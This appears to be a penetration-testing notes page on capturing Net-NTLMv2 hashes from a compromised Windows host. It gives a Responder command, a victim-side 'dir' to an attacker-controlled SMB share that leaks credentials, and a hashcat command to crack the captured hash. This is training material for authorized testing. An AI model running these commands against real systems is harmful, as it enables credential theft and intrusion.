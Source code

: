```yaml
---
IP_KALI: 192.168.45.237
INTERFACE: tun0
---
```

In some penetration tests, we may obtain code execution or a shell on a Windows system as an unprivileged user. This means that we cannot use tools like Mimikatz to extract passwords or NTLM hashes. In situations like these, we can abuse the _Net-NTLMv2_ network authentication protocol.

To do this, we need our target to start an authentication process using Net-NTLMv2 against a system we control.

If we've obtained code execution on a remote system, we can easily force it to authenticate with us by commanding it to connect to our prepared SMB server.

- sudo responder -I <span id="INTERFACE"/>tun0<span type="end"/>
- On victim machine: dir \\\\<span id="IP_KALI"/>192.168.45.237<span type="end"/>\test

The hash mode is 5600:
```
hashcat -m 5600 ntlmv2.hash /usr/share/wordlists/rockyou.txt --force
```